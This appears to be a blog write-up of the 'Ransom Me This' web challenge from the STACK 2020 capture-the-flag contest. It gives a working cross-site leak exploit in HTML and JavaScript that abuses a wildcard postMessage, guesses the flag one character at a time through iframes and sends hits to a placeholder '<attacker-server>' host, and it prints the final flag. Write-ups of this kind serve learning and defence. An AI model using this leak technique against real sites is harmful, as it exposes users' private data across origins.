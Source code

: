 ```yaml
---
layout: post
title: STACK the flags 2020 CTF - Ransom Me This
modified:
categories: blog/
excerpt:
tags: []
image:
  feature:
share: true
comments: true
date: 2020-12-11T11:56:30+08:00
---
```


![]({{site.url|append: site.baseurl}}/resources/images/stack/scoreboard.jpg)

STACK 2020 CTF is a capture the flag [organized by GovTech](https://ctf.tech.gov.sg/). We participated as PwningActionParty and achieved third place in the open category.

# Ransom Me This
**Category:** Web  
**Description:** 
COViD's victims received a link to this portal to submit their ransoms! Can you unlock the keys without paying the ransom?

---

![]({{site.url|append: site.baseurl}}/resources/images/stack/ransom-me-this.png){: width="600px"}

There are two parts to this website:

1. The ransom submission
2. The hacked website search

### The first step is to try to observe the behavior each feature exhibits

***1. The ransom submission***

This makes a POST request to `http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41021/` and the response doesn't seem to indicate any difference from the initial landing page.

However, using Burp Collaborator, we can test that a HTTP request is subsequently made to the URL we provided.

{% highlight linenos %}
GET / HTTP/1.1
Host: z44ebo81l5aokow0blhot5cp3g98xx.burpcollaborator.net
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/81.0.4044.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US
{% endhighlight %}

Notice that the user agent implies that this was made from a headless chrome instance, for now, there doesn't seem to be any other interesting behavior for this feature.

***2. The hacked website search***

This feature is located at `http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41021/search?q=` and embedded in an iFrame.

{% highlight javascript linenos %}
var numResults = "4"
window.parent.postMessage(numResults, '*');
{% endhighlight %}

From the inline JavaScript on the page, we see that it posts the number of search results as a message to the parent website embedding this iFrame, this is interesting because it specifies a wildcard target origin and the page itself allows being embedded from a different origin than itself. Keep this in mind, this primitive could be useful for leaking information across origins.

From the response of the site, there seems to be encryption key hidden from the search results, probably intentional since we might not be "authenticated" to view them.

### Hypothesis

From the information we have on hand, we can hypothesis where the flag might be located:

1. The HTTP request made from the headless chrome seem to imply that we need to make use of this feature in order to obtain the flag, and that we might need to utilize some browser feature (JavaScript methods, etc).
2. The cross-site information leak primitive seems to imply that we need to embed this page in our final exploit and to use the primitive to leak information on the flag.

Therefore, I can hypothesize that the flag is stored as a hidden encryption key, and we need to load our exploit payload in a website loaded by feature #1, and making use of the cross-site leak to leak the flag in feature #2.

### Exploit

{% highlight html linenos %}
<html>
<body>
<script>
window.onmessage = function(data) {
    success = parseInt(data.data);
    if (success == 0) {
    return;
    }
    var iframes = document.getElementsByTagName('iframe');
    for(var i = 0; i < iframes.length; i++) {
        if(data.source === iframes[i].contentWindow) {
            // Do stuff with iframes[i]
            var img = document.createElement('img')
            img.src = "http://<attacker-server>:8003?" + iframes[i].src;
            document.appendChild(img);
        }
    }
}
window.onload = function() {
    for (var i = 32; i <= 127; i++)  {
         s = String.fromCharCode(i);
         var iframe = document.createElement('iframe');
         iframe.src="http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41021/search?q=<?php echo $_GET['flag'];?>"+s;
         document.body.appendChild(iframe)
    }
}
</script>
</body>
</html>
{% endhighlight %}

This is my final exploit, it makes use of feature #2 to guess the flag character by character, and if the guess is correct, the message data should contain an non-zero integer, and if that happens, we cause a callback to our webserver to inform us.

Hosting this page on a webserver, I post the URL of the exploit page to feature #1 and incrementally guess the flag.

![]({{site.url|append: site.baseurl}}/resources/images/stack/ransom-me-this-guess.png)

Eventually we obtain our flag: `govtech-csg{Se@RcH_@nD_d3sTr0y}`